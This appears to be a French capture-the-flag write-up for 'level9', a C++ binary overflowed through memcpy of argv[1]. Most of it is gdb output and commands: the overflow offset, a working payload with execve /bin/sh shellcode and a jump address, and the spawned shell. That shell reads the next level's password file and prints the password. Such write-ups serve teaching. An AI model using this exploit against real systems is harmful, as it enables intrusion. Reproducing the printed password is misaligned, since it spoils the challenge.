 # Level 9

Quand on lance `level9` avec gdb et qu'on décompile on peut voir que le programme est écrit en C++. Le programme prend `argv[1]` et le memcpy et nous pouvons voir que ça segfault.

Lorsque nous testons nous pouvons voir que le ça segfault à partir de 108 caractère.

Si nous ecrivons `112 B` l'adresse du registre eax au moment du segfault sera `0x42424242`, nous pouvons alors jump ou nous voulons. Notre but est donc d'écrire le shellcode, padder, et jump à l'adresse du memcpy pour exécuter le shellcode.

```shell
~ gdb level9
(gdb) r $(python -c 'print "B"*112')
Starting program: /home/user/level9/level9 $(python -c 'print "B"*112')
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers
eax            0x42424242	1111638594
ecx            0x42424242	1111638594
[...]
(gdb) x/24xw $eip
[...]
0x804a002:	0x00710000	0x88480000	0x42420804	0x42424242
0x804a012:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a022:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a032:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a042:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a052:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a062:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a072:	0x42424242	0x42424242	0x00004242	0x00000000
[...]
(gdb) r $(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "B"*84 + "\x0c\xa0\x04\x08"')
Program received signal SIGSEGV, Segmentation fault.
0x6850c031 in ?? ()
(gdb) info registers
eax            0x804a078	134520952
ecx            0x804a00c	134520844
[...]
(gdb) x/24xw 0x0804a008
0x804a008:	0x08048848	0x6850c031	0x68732f6e	0x622f2f68
0x804a018:	0x99e38969	0xe1895352	0x80cd0bb0	0x42424242
0x804a028:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a058:	0x42424242	0x42424242	0x42424242	0x42424242
(gdb)
0x804a068:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a078:	0x0804a00c	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) quit
~ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80" + "B"*80 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```





